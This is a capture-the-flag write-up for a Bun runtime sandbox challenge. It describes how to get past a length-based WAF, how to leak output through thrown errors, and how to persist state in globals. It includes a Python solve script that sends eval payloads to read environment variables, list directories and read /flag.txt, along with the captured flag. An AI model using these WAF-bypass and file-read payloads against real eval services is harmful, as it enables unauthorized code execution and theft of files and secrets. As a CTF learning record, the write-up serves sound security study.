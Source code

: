 ```yaml
---
created: 2024-07-27T20:24
updated: 2024-07-28T04:21
tags:
  - bun
solves: 11
points: 400
description: Easiest ever RCE
---
```


> I’ve created a super secure sinkless buntime, is it really secure?

## Analysis

### Bypass WAF

I tried using `Bun.file` etc to spawn shells but always encounter this weird error.

`WAF: Output Not allowed` or `WAF: Input Not allowed`.

I am not sure what caused them as they block innocent stuff but let others pass.

```js
/*eval*/
throw new Error(JSON.stringify(Bun.env))
// this fails

/*eval*/
// this runs

throw new Error(JSON.stringify(Bun.env))
// this runs

eval("1+1")
// this also runs
```

Eventually I realized that it worked on length, if input or output is longer than a set amount it will fail.

For input, I found it via comments.

```js
///////////////////////////////////////////////////    <- will fail
//////////////////////////////////////////////////     <- will work
```

For output, we can use `throw new Error(str)` to bypass the output restriction.

### Persistence

When trying to prototype pollute the server, I realized that my prototype pollutions are preserved.

This means that I am running code in the same context, that's good as I can store info in `global`. And don't have to somehow compress everything in one payload.
### Sync / Async

For some reason, await just wouldn't work at all.
So I decided to ditch Bun's functions and use node.js defaults. The `fs` module.

## Solve Script

IDK if the async import will cause the next lines to break, but since their effects persist, you can just run the script twice.

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = """
///////////////////////////////////////////////////
import("fs").then(fs=>global.fs=fs)
throw new Error(global.fs.readdirSync("/"))
global.flag=global.fs.readFileSync("/flag.txt")
throw new Error(global.flag)
""".strip()

print(payload)
print()
for l in payload.splitlines():
    r = requests.post("https://8dd1742bbfecae1ec5685380.deadsec.quest/run", json={"code": l})
    print(r.text)

"""
bun 1.1.20 (later than latest version but not related to the challenge)
"""
```

```flag
DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}
```
